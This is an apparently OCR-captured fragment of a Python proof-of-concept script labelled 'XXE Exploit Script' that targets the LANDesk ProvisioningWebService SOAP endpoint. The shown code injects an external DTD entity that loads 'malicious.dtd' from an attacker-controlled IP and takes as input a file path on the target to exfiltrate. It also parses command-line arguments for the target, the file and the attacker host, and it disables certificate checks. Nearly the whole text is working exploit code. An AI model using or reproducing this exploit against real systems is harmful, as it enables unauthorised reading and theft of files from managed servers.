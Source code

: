 ```python
          </UserVariable>
          <UserVariable>
            <Name>string</Name>
            <Value>string</Value>
            <VariableOperation>add</VariableOperation>
          </UserVariable>
        </Variables>
        <actionXml><![CDATA[
  <!DOCTYPE a [
  <!ENTITY % asd SYSTEM "http://{}/malicious.dtd">
  %asd;
  %c; 
  ]>
  <a></a>
  ]]></actionXml>
      </SetActionStatus>
    </soap:Body>
  </soap:Envelope>'''.format(historyEntryIDN, local_ip)

  # Define the headers
  headers = {
      "Content-Type": "text/xml; charset=utf-8",
      "Soapaction": '"http://tempuri.org/SetActionStatus"'
  }

  # The target URL
  log("Sending Request.....", "log")
  url = "{}/LANDesk/ManagementSuite/Core/ProvisioningWebService/WebService.asmx".format(target_url)

  # Send the POST request
  try:
    response = requests.post(url, data=soap_payload, headers=headers, verify=False)
  # Print the response from the server
    log("Request Successfully Sent!", "success")
    print(f"Response Status Code: {response.status_code}")
    print("Response Content:")
    print(response.text)
  except Exception as E:
    log("Error occured: {}".format(E), "log")


def main():
    parser = argparse.ArgumentParser(description="XXE Exploit Script")
    parser.add_argument("target_url", help="Target URL of the web service")
    parser.add_argument("file_path", help="Path of the file to exfiltrate")
    parser.add_argument("local_ip", help="Local IP address for DTD hosting")
    
    args = parser.parse_args()

    # Create the malicious DTD
    create_malicious_dtd(args.file_path, args.local_ip)

    # Start the HTTP server in a separate thread
    # Send the SOAP request
    send_soap_request(args.target_url, args.local_ip)

if __name__ == "__main__":
    print_banner()
    main()
```